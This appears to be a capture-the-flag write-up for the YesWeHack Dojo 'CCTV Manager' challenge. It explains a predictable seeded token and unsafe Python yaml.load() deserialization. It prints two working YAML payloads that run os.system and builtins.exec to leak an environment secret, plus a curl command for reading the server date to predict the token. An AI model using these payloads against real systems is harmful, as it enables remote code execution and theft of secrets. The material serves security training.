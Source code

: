# YesWeHack Dojo43 CCTV Manager Write-Up

<p align="justify">The targeted app is a firmware updater implementing a token-based access control.It generates a "root" token and compares it against a "guest" token provided by the user.
If the tokens match, it loads a YAML config (expected to contain firmware data), instantiates a Firmware object, and calls its update() method. As a matter of fact, update method from firmware class is empty and don't do anything.Finally, it renders an index.html template showing whether access was granted.</p>

## Code analysis
<p align="justify">The application implements a weak token-based authentication mechanism, where the server-generated token could be predicted or matched by an attacker. Combined with the insecure use of yaml.load() on untrusted input, this enabled malicious YAML payloads to trigger Python built-in functions and achieve Remote Code Execution (RCE). This flaw allowed attackers to bypass authentication, execute arbitrary code, and disclose sensitive information such as environment variables (including the flag). </p>

````python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
````

<p align="justify">
  
````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````
  
## solve 1 

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````

## solve 2  

````bash
firmware:
  version: !!python/object/apply:builtins.exec 
  - |
    import threading
    def leak_flag():
        import os
        flag = os.environ.get("FLAG", "no_flag")
        raise Exception(f"FLAG_LEAK: {flag}")
    threading.Thread(target=leak_flag).start() # starting thread in server context triggers error relfected in output server (see snippet below)
````
